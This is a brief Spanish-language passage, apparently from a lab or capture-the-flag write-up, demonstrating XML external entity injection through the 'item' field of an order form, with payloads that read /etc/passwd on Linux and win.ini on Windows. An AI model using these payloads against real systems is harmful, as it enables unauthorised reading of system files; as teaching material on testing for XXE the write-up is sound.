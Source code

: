 ![image.png](<imagenes/image 94.png>)

Le ponemos nombre “exploit” y el triger es xxe

Luego, probamos en los 3 campos y vemos que es el Item el que ejecuta el payload

Para una maquina linux seria:

```php
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE exploit [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

Y para windows:

```php
<?xml version = "1.0"?>
<!DOCTYPE exploit [<!ENTITY xxe SYSTEM 'file:///c:/windows/win.ini'> ]>
<order>
	<quantity>
			4
	</quantity>
	<item>
			&xxe;
	</item>
	<address>
			avenu
	</address>
</order>
```

Aprovechando el xxe intentamos listar ficheros importantes.
